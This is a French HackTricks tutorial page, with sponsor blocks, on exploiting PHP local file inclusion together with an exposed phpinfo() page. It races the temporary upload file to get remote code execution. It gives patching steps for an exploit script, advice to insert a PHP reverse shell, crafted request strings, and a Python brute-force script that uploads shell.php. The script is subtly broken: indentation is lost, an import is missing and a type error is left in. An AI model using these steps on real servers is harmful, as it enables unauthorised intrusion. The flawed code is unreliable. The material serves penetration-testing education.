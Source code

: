 {% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Obtenez la perspective d'un hacker sur vos applications web, votre réseau et votre cloud

**Trouvez et signalez des vulnérabilités critiques et exploitables ayant un impact commercial réel.** Utilisez nos 20+ outils personnalisés pour cartographier la surface d'attaque, trouver des problèmes de sécurité qui vous permettent d'escalader les privilèges, et utilisez des exploits automatisés pour collecter des preuves essentielles, transformant votre travail acharné en rapports convaincants.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


Pour exploiter cette vulnérabilité, vous avez besoin : **D'une vulnérabilité LFI, d'une page où phpinfo() est affiché, "file\_uploads = on" et le serveur doit pouvoir écrire dans le répertoire "/tmp".**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutoriel HTB** : [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

Vous devez corriger l'exploit (changer **=>** pour **=>**). Pour ce faire, vous pouvez faire :
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
Vous devez également changer le **payload** au début de l'exploit (pour un php-rev-shell par exemple), le **REQ1** (cela doit pointer vers la page phpinfo et doit inclure le padding, c'est-à-dire : _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), et **LFIREQ** (cela doit pointer vers la vulnérabilité LFI, c'est-à-dire : _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Vérifiez le double "%" lors de l'exploitation du caractère nul)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### Théorie

Si les téléchargements sont autorisés en PHP et que vous essayez de télécharger un fichier, ce fichier est stocké dans un répertoire temporaire jusqu'à ce que le serveur ait terminé de traiter la demande, puis ce fichier temporaire est supprimé.

Ensuite, si vous avez trouvé une vulnérabilité LFI dans le serveur web, vous pouvez essayer de deviner le nom du fichier temporaire créé et exploiter un RCE en accédant au fichier temporaire avant qu'il ne soit supprimé.

Dans **Windows**, les fichiers sont généralement stockés dans **C:\Windows\temp\php**

Dans **linux**, le nom du fichier était généralement **aléatoire** et situé dans **/tmp**. Comme le nom est aléatoire, il est nécessaire d'**extraire d'une manière ou d'une autre le nom du fichier temporaire** et d'y accéder avant qu'il ne soit supprimé. Cela peut être fait en lisant la valeur de la **variable $\_FILES** à l'intérieur du contenu de la fonction "**phpconfig()**".

**phpinfo()**

**PHP** utilise un tampon de **4096B** et lorsqu'il est **plein**, il est **envoyé au client**. Ensuite, le client peut **envoyer** **beaucoup de grandes requêtes** (en utilisant de grands en-têtes) **téléchargeant un php** reverse **shell**, attendre que **la première partie de phpinfo() soit renvoyée** (où se trouve le nom du fichier temporaire) et essayer d'**accéder au fichier temporaire** avant que le serveur php ne supprime le fichier en exploitant une vulnérabilité LFI.

**Script Python pour essayer de brute-forcer le nom (si la longueur = 6)**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Obtenez la perspective d'un hacker sur vos applications web, votre réseau et votre cloud

**Trouvez et signalez des vulnérabilités critiques et exploitables ayant un impact commercial réel.** Utilisez nos 20+ outils personnalisés pour cartographier la surface d'attaque, trouver des problèmes de sécurité qui vous permettent d'escalader les privilèges, et utilisez des exploits automatisés pour collecter des preuves essentielles, transformant votre travail acharné en rapports convaincants.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
